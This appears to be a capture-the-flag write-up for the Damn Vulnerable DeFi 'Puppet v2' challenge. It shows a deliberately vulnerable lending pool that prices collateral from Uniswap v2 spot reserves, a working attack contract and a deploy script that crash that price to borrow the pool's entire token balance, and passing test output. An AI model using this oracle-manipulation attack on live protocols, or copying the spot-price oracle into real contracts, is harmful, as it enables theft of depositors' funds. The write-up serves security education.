 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/9.png">

# Target Contract Review

Given contract.

**PuppetV2Pool.sol**

```soliditiy
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";

interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external returns (uint256);
}

/**
 * @title PuppetV2Pool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract PuppetV2Pool {
    using SafeMath for uint256;

    address private _uniswapPair;
    address private _uniswapFactory;
    IERC20 private _token;
    IERC20 private _weth;

    mapping(address => uint256) public deposits;

    event Borrowed(address indexed borrower, uint256 depositRequired, uint256 borrowAmount, uint256 timestamp);

    constructor(address wethAddress, address tokenAddress, address uniswapPairAddress, address uniswapFactoryAddress)
        public
    {
        _weth = IERC20(wethAddress);
        _token = IERC20(tokenAddress);
        _uniswapPair = uniswapPairAddress;
        _uniswapFactory = uniswapFactoryAddress;
    }

    /**
     * @notice Allows borrowing tokens by first depositing three times their value in WETH
     *         Sender must have approved enough WETH in advance.
     *         Calculations assume that WETH and borrowed token have same amount of decimals.
     */
    function borrow(uint256 borrowAmount) external {
        // Calculate how much WETH the user must deposit
        uint256 amount = calculateDepositOfWETHRequired(borrowAmount);

        // Take the WETH
        _weth.transferFrom(msg.sender, address(this), amount);

        // internal accounting
        deposits[msg.sender] += amount;

        require(_token.transfer(msg.sender, borrowAmount), "Transfer failed");

        emit Borrowed(msg.sender, amount, borrowAmount, block.timestamp);
    }

    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        uint256 depositFactor = 3;
        return _getOracleQuote(tokenAmount).mul(depositFactor) / (1 ether);
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves(_uniswapFactory, address(_weth), address(_token));
        return UniswapV2Library.quote(amount.mul(10 ** 18), reservesToken, reservesWETH);
    }
}
```
The `PuppetV2Pool` contract is a smart contract that allows users to borrow tokens by **depositing three times the value in WETH (Wrapped Ether)**.

**The contract uses the Uniswap v2 protocol to calculate the required amount of WETH to be deposited based on the desired borrow amount. The contract assumes that WETH and the borrowed token have the same amount of decimals.**

`borrow()` : Allows users to borrow tokens by first depositing three times the value in WETH. The function transfers the required amount of WETH from the sender to the contract and updates the internal accounting of deposits. It then transfers the borrowed tokens from the contract to the sender.

`calculateDepositOfWETHRequired()` : Calculates the amount of WETH required to be deposited based on the desired token amount. It uses the Uniswap v2 library to fetch the reserves of WETH and the borrowed token from the Uniswap pair and calculates the quote using the reserves.

`_getOracleQuote()` : Fetches the price from Uniswap v2 using the official UniswapV2Library. It retrieves the reserves of WETH and the borrowed token from the Uniswap pair and calculates the quote for the given amount.


Challenge's message:

> The developers of the previous pool seem to have learned the lesson. And released a new version!
Now they’re using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.
You start with 20 ETH and 10000 DVT tokens in balance. The pool has a million DVT tokens in balance. You know what to do.

# Subverting

```solidty
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@uniswap/v2-periphery/contracts/libraries/UniswapV2Library.sol";
import "@uniswap/v2-periphery/contracts/libraries/SafeMath.sol";
import "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
interface IERC20 {
    function transfer(address to, uint256 amount) external returns (bool);

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) external returns (bool);

    function balanceOf(address account) external returns (uint256);

    function approve(address spender, uint256 amount) external returns (bool);

    function deposit() external payable;
}

interface IPuppetV2Pool{
     function borrow(uint256 borrowAmount) external ;
}

contract AttackPuppetV2 {
    using SafeMath for uint256;

    IPuppetV2Pool  pool;
    IERC20  token;
    IERC20  weth;
    IUniswapV2Router02  uniswap;

    constructor(address _pool,address _weth,address _token,address _uniswap) public {
        pool = IPuppetV2Pool(_pool);
        weth = IERC20(_weth);
        token = IERC20(_token);
        uniswap = IUniswapV2Router02(_uniswap);
    }

    function attack() public payable {
        uint256 tokenAmount = token.balanceOf(address(this));
        token.approve(address(uniswap), tokenAmount);
        address[] memory path = new address[](2);
        path[0] = address(token);
        path[1] = address(weth);
        uniswap.swapExactTokensForETH(tokenAmount,1,path,address(this),uint256(block.timestamp *2));
        weth.deposit{value: address(this).balance}();
        uint256 ethAmount = weth.balanceOf(address(this));
        weth.approve(address(pool), ethAmount);
        uint256 poolTokenAmount = token.balanceOf(address(pool));
        pool.borrow(poolTokenAmount);
        uint256 borrowTokenAmount = token.balanceOf(address(this));
        token.transfer(msg.sender, borrowTokenAmount);
    }

    receive() external payable {}
}
```

```js
const attackFoctory = await ethers.getContractFactory("AttackPuppetV2", player);
const attack = await attackFoctory.deploy(lendingPool.address,weth.address,token.address,uniswapRouter.address);
await token.connect(player).transfer(attack.address, PLAYER_INITIAL_TOKEN_BALANCE);
await attack.connect(player).attack({value: PLAYER_INITIAL_ETH_BALANCE - 1n * 10n ** 17n});
```

Solve the challenge.

```powershell

  [Challenge] Puppet v2
    ✔ Execution (88ms)


  1 passing (2s)

Done in 3.50s.
```

**_by wasny0ps_**

